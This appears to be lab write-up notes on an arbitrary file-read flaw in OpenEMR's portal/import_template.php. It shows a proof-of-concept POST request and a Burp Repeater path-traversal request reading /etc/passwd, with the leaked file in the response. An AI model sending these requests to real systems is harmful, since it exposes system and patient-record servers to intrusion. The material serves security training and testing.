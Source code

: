 ```
#    echo file_get_contents($_POST['docid']);
#    exit;
#  }

# ii. Proof of Concept:
POST /openemr/portal/import_template.php HTTP/1.1
Host: hostname
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101        Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: OpenEMR=5c5n9ia07lnoao2rve3gd5tif3; PHPSESSID=1dbh9mom6ib07jqovfusgjc3vs
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

mode=get&docid=/etc/passwd 📌

[...]
```

`burpsuite` > `Repeater`

`.../portal/import_template.php`

`HTTP Request`:
```http
POST /portal/import_template.php HTTP/2
Host: a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com
Cookie: OpenEMR=fij3jrqm4psf4a3i5tega9dni2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

mode=get&docid=../../../../../../etc/passwd 📌
```
`HTTP Response`:
```http
HTTP/2 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Content-Type: text/html; charset=utf-8
Date: Fri, 29 Nov 2024 12:23:33 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1321

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```